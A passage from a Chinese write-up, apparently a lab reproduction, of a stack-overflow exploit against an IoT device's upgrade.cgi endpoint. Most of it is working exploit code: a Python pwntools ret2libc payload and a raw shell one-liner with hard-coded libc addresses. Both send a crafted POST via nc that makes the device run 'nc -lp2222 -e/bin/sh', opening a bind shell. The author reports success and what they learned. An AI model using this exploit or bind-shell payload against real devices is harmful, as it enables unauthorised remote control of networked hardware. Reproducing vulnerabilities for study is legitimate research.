 ```python
payload += (0x8 * 'a')  # padding
payload += p32(libc_elf.symbols['system'] + libc_base) # 内存中 system() 函数地址
payload += ('pwd;' * 0x100 + 'nc\x20-lp2222\x20-e/bin/sh\x20>') # 命令参数



payload = 'echo -en "POST /cgi-bin/admin/upgrade.cgi \nHTTP/1.0\nContent-Length:{}\n\r\n\r\n"  | nc -v 192.168.2.2 80'.format(payload)
os.system(payload)
```



#### 字节码

由于复现漏洞的虚拟机中并没有pwntools，所以整理成字节码直接跑，有点硬核233333333

```shell
    echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0\nContent-Length:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x84\x57\xf7\x76\xe0\xeb\xff\x7e\xa4\x3a\xf4\x76aaaaaaaa\xb0\x4a\xf7\x76pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;pwd;nc -lp2222 -e/bin/sh >\n\r\n\r\n" | nc -v 192.168.2.2 80
```



## 0x05 复现

![](./success1.png)  

![](./success2.png)  s

通过此漏洞在远端2222端口反弹一个shell，本地nc过去，成功getshell~。

到这边整个复现过程就算结束了，其实调试和运行环境布置在树莓派上应该会更好一点，能ida远程调就爽的一批了。

## 0x06 总结

这次的复现过程真的值得好好去讲讲，去回味，漏洞本身是不难的，只是一个栈溢出，但是在真实环境下，在IoT环境下，它又是那么与众不同。

这次的复现真的让我学会了很多，固件、社工(滑稽)、qemu、远程调试、交叉编译、arm语法，甚至arm-pwn.......

更重要的是，它让我知道了对一个一开始觉得高不可攀无法解决的问题如何起手。

ps:调试阶段的时候玩gdbserver触发了一个double free，先去看看是否有相关的漏洞，没有的话过几天调一波~

![](./cve1.png)  

xdw 加油加油~





